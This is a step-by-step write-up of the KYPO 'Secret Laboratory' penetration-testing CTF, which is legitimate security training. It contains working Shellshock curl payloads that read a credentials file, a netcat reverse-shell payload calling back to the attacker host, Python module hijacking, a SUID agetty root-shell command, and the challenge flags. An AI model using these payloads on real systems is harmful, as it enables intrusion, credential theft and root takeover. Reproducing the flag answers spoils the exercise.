# Kypo-CRP Penetration Test CTF Challenge Write Up 02: The Secret Laboratory

**Project Design Purpose** : This article is the second write up of using the Kypo-CRP for building cyber security CTF challenges or hands on exams environment. I will use the penetration test CTF game “The Secret Laboratory” from Masaryk University’s Spring 2020 semester course PV276 – Seminar on Simulation of Cyber Attacks and as a case study, this article demonstrates two key objectives:

- How to build and deploy a custom CTF or teaching-assignment sandbox on the KYPO-CRP platform.
- How to operate within the KYPO-CRP to solve the PV276 Secret Laboratory challenge step-by-step.

The Secret Laboratory CTF challenge is designed as an advanced web and information security exercise that introduces participants to the penetration testing workflow from a defender’s perspective. It emphasizes web service vulnerability identification and exploitation, CVE-based attacks, and data protection techniques taught in [Masaryk University’s PV276 Cybersecurity course](https://is.muni.cz/course/fi/autumn2020/PV276). The corresponding KYPO sandbox for this challenge is publicly available through KYPO’s official open-source repository on GitLab ([MUNI-KYPO-TRAININGS / games / secret-laboratory](https://gitlab.ics.muni.cz/muni-kypo-trainings/games/secret-laboratory)), allowing learners and professionals alike to practice hands-on cyber offense and defense skills in a realistic environment.



```python
# Author:      Yuancheng Liu
# Created:     2024/07/21
# Version:     v_0.1.2
# License:     MIT License
# Kypo-CRP Disclarmer: This training topic is for educational purposes only.The story is fictitious.
```

**Table of Contents**

[TOC]

------

### Introduction

Before we dive into the technical walkthrough of solving the **Secret Laboratory** challenge, I’d like to thank the challenge authors—**Stanislav Boboň, David Hofman, and Jakub Smatana**—for designing a compact, engaging, and pedagogically rich hands-on assignment for cybersecurity education and competition.

The Secret Laboratory challenge is composed of five sequential tasks that together exercise core cybersecurity skills across networking, Linux system administration, web security, cryptography, and privilege escalation. Completing the challenge will leave participants comfortable with the following concepts and techniques:

- Basic network discovery and probing using tools such as `fping` and `nmap`.

- Linux filesystem layout, SSH configuration, and user/file permission models configuration.

- Performing a focused penetration test against a web service, including identifying and exploiting a known vulnerability (CVE-2014-6271).

- Exploiting misconfigured permissions and performing library hijacking/overwrite attacks to achieve privilege escalation and extract sensitive information.

#### Challenge Background Story

On the KYPO challenge page participants are greeted with a short narrative that frames the exercise and sets the goals as shown below :


This storyline provides context for the tasks: 

> **Welcome!** You are a cybersecurity officer hired to perform a penetration test on a startup’s web service so they can fix security problems early. You will be given a Kali machine on the same network as the target server—use it to locate vulnerabilities and demonstrate how they can be exploited.

#### Environment and Network Topology

The exercise runs on the **KYPO Cyber Range Platform (KYPO-CRP)** and uses **CTFd** for scoring. For each participant KYPO provisions a small multi-network environment composed of two interconnected VMs. The simplified network topology used in this write-up is shown below:



- **Attacker (10.32.51.12)** — a Kali VM provided to the participant. It includes common pentest tools and the participant has `sudo` privileges to perform tasks.
- **Web VM (10.32.51.173)** — the target server hosting the vulnerable web service.

#### CTF Questions and Core Techniques

The challenge is structured into five progressive questions as shown in the below diagram



The main learning objectives and techniques covered are summarized here:

- **Q1 — Network Probing:** Learn to orient yourself in Kali Linux and discover hosts in the target subnet using tools like `fping` and `nmap`.
- **Q2 — Service Scanning:** Use `nmap` to enumerate open ports and services on the discovered host(s).
- **Q3 — Identify the Vulnerability:** Use web scanning tools (for example, `nikto`) and CVE research to pinpoint a vulnerable service and gather vulnerability details.
- **Q4 — Exploit the Vulnerability:** Apply an exploit informed by CVE-2014-6271 (Shellshock) to gain code execution on the web server.
- **Q5 — Retrieve Secret Information & Privilege Escalation:** Explore how interpreted language library hijacking or overwriting combined with misconfigured file permissions can lead to information leakage and privilege escalation.


------

### Challenge Q1: Network Probing (Target Discovery)

**CTF Challenge Information** :

- **Objective:** From your Kali VM on the KYPO network, discover the hosts in the subnet and submit the *total number of IP addresses* (including your own) as the flag.
- **Challenge Tasks**: Before any penetration test (or detection/defense activity) you must know the network layout: which hosts exist, which IPs belong to the target subnet, and which node you are. That lets you focus scans responsibly and — from a defender’s perspective — quickly spot new or suspicious devices on the network.
- **Flag**: The total number of nodes' ip address (include yourself) in the sub-net.

#### Step 1.1 - Get KYPO Environment SSH Access

CTF participant needs to get to the training topic 2 **Get Access to the Course Environment** , click the button **Get SSH Config** and follow the section "Access the Kypo-Crp Course Challenge VMs" in `UserAccessManual_CR1.pdf` to login to their own sandbox vm. (As shown below)



Then the participant can login their own individual sandboxes (as shown below) with the downloaded SSH key and the configuration file as shown below:




#### Step 1.2 - Confirm your VM network interface and subnet

On the Kali attack VM run:

```bash
ip addr
# or
ifconfig
```

Look for the interface with an IP like `10.32.51.12`. From this address you can infer the subnet. In this challenge your Kali VM IP is `10.32.51.12`, so the subnet is `10.32.51.0/24` (i.e. addresses `10.32.51.0`–`10.32.51.255`).

#### Step 1.3 - Probe the subnet for live hosts

The participant can use `fping` (fast ICMP pinger) or `nmap` to enumerate live hosts. Examples used in the lab:

**With fping** (list all live hosts in the subnet):

```
fping -ag 10.32.51.0/24 2>/dev/null
```

`-a` prints alive hosts, `-g` expands the range. `2>/dev/null` hides error messages.

**With nmap** (ping scan / host discovery only):

```
nmap -sn 10.32.51.0/24
```

`-sn` performs host discovery without doing port/service scans. (You can run `nmap --help` or `man nmap` to read options; `-sV` is the option for service/version detection when you later want to enumerate services.)

The result is shown below:



The scanner output will list the IP addresses that responded. There are 4 node in shown in the result, then fill in the result 4 the flag submission page as shown below:



**Correct answer (flag):** `4`


------

### Challenge Q2 : Target Service Scanning (Service Enumeration)

**CTF Challenge Information** :

- **Objective:**  Determine **which services** are running on that host and — critically — to extract the **HTTP service version string**. Submit the flag under format `<service-name> httpd <version number> ((Debian))`

#### Step 2.1 - Nmap scan the target 

Experiment with `nmap` options and run a service/version probe against the target. Useful options:

- `-sS` — SYN (stealth) scan
- `-sV` — probe services to detect versions
- `-O`  — attempt OS detection

Use the below command to scan the target host:

```
nmap -sV 10.32.51.173
```

The result is shown below:



From that output get the Apache string is:

```
Apache httpd 2.4.38 ((Debian))
```

Fill in the result in the flag submission page: 



**Correct answer (flag):** `Apache httpd 2.4.38 ((Debian))`


------

### Challenge Q3 : Identify the Vulnerability

**CTF Challenge Information** :

- **Objective:** Scan the discovered web service to identify known vulnerabilities and submit the CVE identifier found in an open vulnerability database.
- **Tasks**: Knowing the server software and version (from Q2) lets you search for known weaknesses. In this task we perform a focused web vulnerability scan against the Apache-hosted service to discover a concrete, public CVE that explains how the server can be exploited.
- **Flag**: "CVE-xxxx-xxxx" recorded in the Open Sourced Vulnerability Database (OSVDB).

#### Step 3.1 — Scan with Nikto (discover potential CVEs)

We use **Nikto**, a simple web vulnerability scanner preinstalled on the Kali VM. Nikto checks a web server for known issues and will list related CVE identifiers when it finds matching tests.

Run:

```
nikto -h 10.32.51.173
```

Result:



Nikto will probe common CGI scripts and headers and report findings. In this lab the scanner detects the **Shellshock**-related issue in a CGI script, and the output shows the associated CVE(s). Example output (screenshot in lab) shows the CVE entries discovered.

Some time if the web server response slow, the student result may show below message: 



This is because the nikto's plugin code design, both CVE2014-6271 and CVE2013-6278 belongs to the shellshock vulnerability for the same cgi, but use different Header for different API. The source code of the shellshock vulnerability detection plug in : https://github.com/sullo/nikto/blob/master/program/plugins/nikto_shellshock.plugin

- CVE2014-6271 : Use API header 'User-Agent' (Public)
- CVE2013-6278 : use API 'header 'Referer' (Debugging)

#### Step 3.2 — Confirm with Nmap (optional verification)

As the `User-Agent` is a public API, so most of the tools will detect the vulnerability as CVE2014-6271. For example if we use the Nmap's script vulnerability detection to expose the CVE, it will show CVE2014-6271, actually both of the answer are correct. 

Run:

```
nmap -sV --script http-shellshock --script-args uri=/cgi-bin/printenv 10.32.51.173
```

The script output will commonly reference **CVE-2014-6271** (see the screenshot below). Both Nikto and this Nmap script are valid ways to corroborate the vulnerability.



Fill in the flag in the submission page:



**The correct answer(flag) is**:  `CVE-2014-6271`


------

### Challenge Q4 : Exploit the Vulnerability

**CTF Challenge Information** :

- **Objective:** Understand how an attacker can use the discovered CVE to execute commands on a vulnerable web server.
- **Tasks**: You have identified that the target web server (`10.32.51.173`) is running a CGI script vulnerable to **Shellshock**, , a Bash command-injection flaw. Your goal is to exploit that vulnerability to retrieve the password stored by the local user **michael** in a file named `credentials.txt`, then use that password to log in via SSH.
- **Flag:** the password found in `credentials.txt` (i.e., the secret value you will later use to SSH as *michael*).

#### Solution 4.1 (Optional): Enumerate directories using ffuf

If the participants prefer not to rely on external CVE documentation, they can brute-force the web directory structure to find potentially exploitable endpoints.

FFuF scan folders command:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.32.51.173/FUZZ -t 50
```

Result: 



Then the participants need to try different wordlist in the `/usr/share/wordlists` folder and find the "cgi-bin", then find the "printenv". Then they can use curl to check: 



#### Solution 4.2 (Recommended): Direct Shellshock exploitation using the known CVE

Since Q3 confirmed Shellshock, students can directly craft injections to locate files on the server.

Locate the credentials file using CVE-2014-6271 payload : 

```
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'find / -type f -name credentials.txt'" \
     http://10.32.51.173/cgi-bin/printenv
```

Result:



The file is found at: `/var/www/html/credentials.txt`

List and read the file with command : 

```
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'ls /var/www/html'" http://10.32.51.173/cgi-bin/printenv

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/html/credentials.txt'" http://10.32.51.173/cgi-bin/printenv   
```

Result:



#### Solution 4.3 (Optional): Reverse shell via Netcat

If instructors want to teach reverse shells and post-exploitation techniques:

Start listener on Kali:

```
nc -lvnp 4444
```

Trigger Shellshock with a reverse-shell payload:

```
curl -H "User-Agent: () { :;}; /bin/nc -e /bin/bash <KALI_IP> 4444" http://10.32.51.173/cgi-bin/printenv
```

After use test ssh login with the user `michael` and confirm the password correct fille, then submit the result (WindOfChange) below:



**The correct answer(flag) is**:  `WindOfChange`


------

### Challenge Q5: Find the Secret Information

**CTF Challenge Information** :

- **Objective:** Understand the Linux file permissions and special permission bits (especially **SUID**), Library hijacking / module overwriting in interpreted languages (Python, PHP, Perl, etc.) and Privilege escalation techniques.
- **Tasks**: There is a secret file located under `/root`, but its permission prevents normal users from reading it. nside *michael*’s home directory, there are two files owned by **root**, both read-only for him, yet still executable. This is unusual—and suspicious. Their task is to find a way to use these files as a “bridge” to escalate privileges.
- **Flag**: the text contents in the *txt file in /root folder.

#### Step 5.1 : Inspecting sudo permissions

n this challenge environment, a root-owned script named **try_it.py** (mode `0644`) is placed inside Michael’s home directory.
 A hint is also added to `/etc/sudoers`:

```
- name: Allow for user michael to execute python script
  lineinfile:
    path: /etc/sudoers
    insertafter: '^root'
    line: 'michael ALL=(john) NOPASSWD: /usr/bin/python3 /home/michael/try_it.py'
```

Then check the user information to find user john with `sudo` cmd:

```
sudo -l
```

Result:



This reveals:

- User **michael** is allowed to run `/usr/bin/python3 /home/michael/try_it.py`
- The command will be executed **as user john**, without requiring john’s password

#### Step 5.2 : Review try_it.py file

Then we check the try_it.py file:



The script is trivial—no exploitable logic.
 However:

- It is **owned by root**
- It is **executed with elevated privileges** (when run via sudo)

This means we can exploit its Python runtime behavior.

#### Step 5.3 Library Hijacking via Python Module Overwrite

The Python searches for modules in this order:

1. Current directory
2. Directories in `PYTHONPATH`
3. System library directories

Because `try_it.py` contains `import random`, we can overwrite the `random` module by placing a fake `random.py` in the same directory. This allows us to execute arbitrary commands **with the privilege of the target user (john)**.

Create the file `/home/michael/random.py` as shown below:



Important notes:

- Include the correct shebang (`#!/usr/bin/python3`)
- Use `os.system` / `pty.spawn` / `subprocess` to spawn a shell

#### Step 5.4 : Execute the hijacked script

Run the script as instructed by sudo:

```
sudo -u john /usr/bin/python3 /home/michael/try_it.py
```

Result:


Now we have a john-shell without needing john’s password. Because the system thinks *root* is spawning a shell as john (root never needs a password).

#### Step 5.5 : Privilege Escalation: john → root

Inside john’s home directory, students will find a suspicious SUID binary:



A binary named **agetty** is sitting there—this is abnormal:

- agetty is a system login program
- It **should not** be located inside a user's home directory
- It **should not** have SUID set
- When SUID-root, agetty becomes a privilege escalation vector

#### Step 5.6 : Use GTFOBins to escalate

Search “agetty privilege escalation” or check GTFOBins and get : https://gtfobins.github.io/gtfobins/agetty/, this The site confirms the **agetty** with SUID can spawn a root shell.

Run the exploitation command:

```
./agetty -o -p -l /bin/sh -a root tty
```

Result: 

